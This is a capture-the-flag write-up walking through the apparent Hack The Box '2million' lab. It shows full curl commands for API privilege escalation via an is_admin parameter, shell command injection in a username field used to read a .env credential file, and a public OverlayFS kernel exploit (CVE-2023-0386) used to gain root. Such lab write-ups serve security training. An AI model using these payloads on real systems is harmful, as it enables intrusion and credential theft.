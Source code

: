 ![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/64aa6631-b7a8-4377-9bcf-0751ee77a357)1. Run Nmap to check which port is opened from the website.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/35f857a9-b6c5-4ec1-9317-dd0dcea44fc3)

2. Add Vhost to /etc/hosts with named 2million.htb so we are able to see the website's content. <br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/8e65e202-ba12-44dc-95f4-d248a56de077)

Website's content:

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3ddf0471-3d80-4d71-b831-83e83465f440)

3. After analyze all of the feature, inside join feature, we can input the special code before making an account.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/2d2c5210-5a5d-472a-a56f-0bbd2badbe07)

Content:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/5cd8fc00-f19d-43a7-b4d2-fbf4663bb5a5)

4. Let's check the source code and we found that the feature directed to /js/inviteapi.min.js.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/5b0731a6-dc47-4dae-8f43-954152709af9)

5. When we opened the file, it seems that the code is obfuscated.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/654985bd-7453-4430-872d-e8f73c3b27b6)

6. We can deofuscated with this amazing [tool](https://lelinhtinh.github.io/de4js/).
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/69db88a6-a7a8-4599-8f10-5d0eb0d33ea9)

7. As we can see that the code is sent to 2million.htb/api/v1/invite/how/to/generate. to see what the codes inside there, we can run `curl -X POST 2million.htb/api/v1/invite/how/to/generate` where -X is to run the method.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/b913fc84-8b3a-42dc-9758-f9784e6f07ed)

8. We know that the message encoded using ROT 13, so we can decode with this [website](https://www.dcode.fr/rot-13-cipher).
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d6cbb0b6-d3c2-495c-911d-0e4a05495943)

9. The message says that we have to send request to 2million.htb/api/v1/invite/generate. We can use `curl -X POST 2million.htb/api/v1/invite/generate`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/0c65752e-2e1c-41fa-9dd7-cd66ef561369)

10. Seems like it's base64 encoded message, so we decoded and YES! we get our special code and directed to Register page!.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/27a13a23-c73e-4423-84de-09809812d449)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a2d32665-cf49-47c9-b59f-4d6c5bc22190)

Register Page:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/29a36c04-cd44-4887-b08a-ba7ce1880fda)

11. Just give a random data and for my case, I inserted my username with bebek, email bebek@2million.htb, dan password bebekgoreng.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/cdad42d1-1a49-49a6-ab15-89674875b278)

12. Do login with our credentials before and we can see the homepage like this.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/cd685a93-5d25-4d90-9db5-35b073a7edab)

Homepage:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6414a2ff-7c3c-485a-acaa-259ea5893f88)

13. Again, checking one by one feature and found something interesting inside access feature. In this feature, we can download our own VPN Certificate (OpenVPN).
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ac67b9b8-9201-4334-99eb-6cdd9b60b026)

14. Let's check the source code and we can know that the certificate is generated from `/api/v1/users/vpn/generate`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e225d551-7bf1-4655-9772-83525fdc6234)

15. When we opened the endpoint, we can only see the certificate content from the user so we can't get any crucial information there.Therefore, we are going to check the API itself with `curl -v 2million.htb/api`. <br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ee3e07c7-2465-4997-9c78-85b527e50d47)

16. Copy the website's cookie and check the API endpoint using this command `curl -v 2million.htb/api --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2"`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/c2cb0801-6339-44e6-b699-88591a028037)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a68f1b35-1f6d-44de-9e1d-e830be94a427)

17.Next let's check the api version endpoint with command `curl -v 2million.htb/api/v1 --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2"`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a31d5c4e-8243-4a4e-8cd7-46c9df709664)

18. There are several endpoints and all are related to admin. Since we are not admin yet, the feature that become the main focus is update. Checking the feature can be done by executing this command `curl -v -X PUT 2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2"`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/9be62ce6-e3f2-4288-96a7-a90d3be64a6f)

19. The message shows that we have to input some data. In this case, we input our email and password like this `curl -v -X PUT 2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json" --data '{"email":"bebek@2million.htb", "password": "bebekgoreng"}'`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/c6987d1f-eef9-4d77-9093-969e0d1665f1)

20. Now the message shows that is_admin is not in there so, we can set *is_admin value to true or is_admin = 1* with this command `curl -v -X PUT 2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json" --data '{"email":"bebek@2million.htb", "password": "bebekgoreng", "is_admin": 1}'`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ade0bcad-912f-4f72-802c-ada8014fff14)

21. To check if my account is admin or not, we can use the auth feature with this command `curl -v 2million.htb/api/v1/admin/auth --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2"`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e6e7bf7b-38d8-4a16-a52a-a696333250f3)

22. YES! We get the admin privilege, now we can check admin's VPN certificate. Command: `curl -v -X POST 2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json"`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/c09e53d5-7760-4057-b6e4-01770d8f3683)

23. The message now shows that there is missing parameter named username so we can input our username inside our payload. Command: `curl -v -X POST 2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json" --data '{"username": "bebek"}'`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d8ecc215-bc9f-4971-938d-a6b7b005cbe0)

24. Okay, now the website generated the user's VPN certificate to us. How about next? Well, we now analyze if this configuration using exec() or system() in php. If yes then it becomes the vulnerability of this website. To prove it, we can insert linux command such as id, ls, cat, etc. between the data input like this `curl -v -X POST 2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json" --data '{"username": "bebek;ls;"}'.`<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/aa551358-d495-43d1-8954-d23ae0770984)

25. It works! Now we can add -a to see all hidden files inside. Command: `curl -v -X POST 2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json" --data '{"username": "bebek;ls -a;"}'.`<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6b964261-894c-4ac0-9db0-939ecab46e1f)

26. Env file is always the main thing to get some crucial credentials. To open it we can use cat command. `curl -v -X POST 2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json" --data '{"username": "bebek;cat .env;"}'.`<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1270aa62-feb1-4d83-b111-455219506f72)

27. From there we know the admin and the password. We can use ssh to use admin's terminal. `ssh admin@2million.htb`. Right after login, we get the user flag!<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/7d4e4815-e538-4d94-93a2-959bc3fe5d1c)

28. Now we want to find the root flag. Unfortunately, we can't get the su privilege directly.<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6329e9a7-e3ba-47aa-9553-e6bcc353a4cb)

29. Checking one by one directory inside the terminal and found some interesting message inside mail folder.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/fa94501a-e7fb-4e88-b9e3-d9746cb58998)

30. The message says that there is CVE that related to OverlayFS and when we search in Google, we found that this is [CVE-2023-0386](https://nvd.nist.gov/vuln/detail/CVE-2023-0386) with this [payload](https://github.com/sxlmnwb/CVE-2023-0386).

31. Run git clone https://github.com/sxlmnwb/CVE-2023-0386 inside our local terminal and zip the folder then copy the zip to the admin terminal with command scp payload.zip admin@2million.htb:/home/admin.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/67c34621-0aa8-4e21-9995-55f30fb0e51f)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/03bf5fc5-e295-4ff6-a26b-a7330e2b671f)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1ec2258a-d2f1-4bf9-ad34-10ad97525e41)

Result in admin terminal:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a23d3dd6-3920-4a46-84e1-15c5569e2b47)

32. Unzip the file and execute the payload which is already listed in the github.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/fcbf7136-56ad-415a-9f32-9e8a4db7f64c)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d9f1f897-9743-49eb-be1c-8d516204ae5f)

33. Let's go! we get the root privilege and got the flag from root directory!
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/5bf3edbd-9e2c-4f6f-84dc-2e900d8d1a88)

